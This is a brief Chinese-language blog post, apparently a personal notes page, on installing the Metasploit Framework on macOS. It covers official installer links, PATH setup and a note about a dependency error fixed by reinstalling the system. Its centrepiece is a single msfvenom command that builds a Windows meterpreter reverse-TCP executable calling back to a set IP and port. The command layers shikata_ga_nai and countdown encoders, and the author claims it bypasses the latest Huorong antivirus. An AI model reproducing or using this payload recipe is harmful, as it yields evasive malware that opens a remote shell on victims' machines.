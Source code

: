 ```yaml
---
layout: post
title:  "Mac环境下msf环境部署"
date:   2020-07-16 12:32:45 +0100
categories:
---
```


# msf安装
Mac官网下载[https://osx.metasploit.com/metasploitframework-latest.pkg](https://osx.metasploit.com/metasploitframework-latest.pkg) 
Win官网下载[https://windows.metasploit.com/metasploitframework-latest.msi](https://windows.metasploit.com/metasploitframework-latest.msi)  

- Mac推荐安装brew，神器!  
# 环境配置  
- brew install ruby  //安装ruby
```
msf在Mac默认安装位置为/opt/metasploit-framework/  
添加PATH环境:export PATH=/opt/metasploit-framework/bin:$PATH  
执行msfconsole启动  //我习惯使用msf启动 可以使用alias将msfconsole设置别名为msf
```

# msfvenom使用  //可Bypass最新版火绒(已提交火绒安全) 
直接上命令  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.7.112 LPORT=1111 -f raw -e x86/shikata_ga_nai -i 8 | msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 10 -f exe -o 12345.exe  

刚开始在使用msfcenom的时候报错缺少依赖，提示bundle install，安装依赖后依旧无法使用，初步断定为电脑环境问题，随即重装恢复系统 //重装后安装msf一切正常